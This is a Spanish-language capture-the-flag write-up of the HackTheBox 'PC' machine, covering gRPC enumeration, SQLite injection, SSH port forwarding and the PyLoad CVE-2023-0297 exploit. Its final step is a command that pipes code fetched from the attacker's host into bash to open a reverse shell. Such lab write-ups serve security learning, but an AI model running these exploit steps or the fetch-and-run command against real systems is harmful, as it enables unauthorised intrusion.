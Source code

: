 ```yaml
---
title: HackTheBox - PC
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'SQL Injection', 'PyLoad (CVE-2023-0297)', 'Local Port Forwarding (SSH)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/PC/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: PC Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **SQL Injection, PyLoad (CVE-2023-0297), Local Port Forwarding (SSH)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina PC**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/PC/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/PC/02-versions.png)

* Como nos sabemos que servicio se ejecuta en el puerto **50051** consultamos sobre los servicio más comunes que ocupen este puerto. 

    ![](/assets/images/HTB/Easy/PC/03-web.png)

    > Nos menciona algo de **gRPC** por lo que usaremos **grpcui**

c. Configuramos el grpcui e invetigamos sobre el servicio

```bash
root@kali> grpcui -plaintext 10.10.11.214:50051
```

![](/assets/images/HTB/Easy/PC/04-grpcui.png)

* Existen tres métodos **`LoginUser, RegisterUser` y `getInfo`**. Después de crear un usuario y autenticarnos, recibiremos un **token** el cual usaremos para el método **getInfo** y esta petición la capturamos con Burp Suite

    ![](/assets/images/HTB/Easy/PC/05-burp.png)

* El único data que se envía es el id y al enviarlo vemos el mensaje "El administrador está trabajando duro por arreglar los errores". Aquí podemos decir que existe una inyección SQL

    * La base de datos es **sqlite**

        ![](/assets/images/HTB/Easy/PC/09-db.png)

    * PayloadAllTheThings: [Sqlite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

        ![](/assets/images/HTB/Easy/PC/06-sqli.png)

    * Listamos las columnas de la base de datos **accounts**

        ![](/assets/images/HTB/Easy/PC/07-sqli2.png)

    * Vemos los datos de esta tabla

        ![](/assets/images/HTB/Easy/PC/08-sqli3.png)

    * Aquí vemos un usuario sau con una credencial que es válida para el servicio **SSH**

d. Nos autenticamos en el servicio SSH con las credenciales **`sau:H[Pass]31`**

```bash
root@kali> ssh sau@<IP PC>
sau@10.10.11.214's password:
-bash-5.0$ whoami
sau
```

### Escalada de Privilegios 💹

a. Al listar los puertos abiertos internamente en la máquina vemos otro puerto **8000**

```bash
sau@pc:~$ netstat -nat
Proto Recv-Q Send-Q Local Address   Foreign Address   State      
tcp     0      0 127.0.0.1:8000      0.0.0.0:*        LISTEN
<SNIP> 
```

* Este servicio es ejecutado por root

    ```bash
    sau@pc:~$ ps -faux
    <SNIP>
    root  1064  0.5  1.9 1222824 76660 ? Ssl 16:48 0:53 /usr/bin/python3 /usr/local/bin/pyload
    ```

b. Nos traemos este puerto jugando con SSH y **Local Port Forwarding**

```bash
root@kali> ssh -L 8000:127.0.0.1:8000 sau@<IP PC>
```

* Ahora ya podemos ver este servicio 

    ![](/assets/images/HTB/Easy/PC/10-pyload.png)

* Al buscar por vulnerabilidades en este servicio encontramos esto [CVE-2023-0297](https://www.exploit-db.com/exploits/51532), este script nos permite ejecutar comandos, no veremos el output del comando, pero, sabemos que se ejecutó, con lo que nos entablaremos una reverse shell

    ```bash
    root@kali> python3 poc.py -u http://localhost:8000 -c "curl http://<tun0 IP>:4444/index.html|bash"
    ```

    ![](/assets/images/HTB/Easy/PC/11-reverse.png)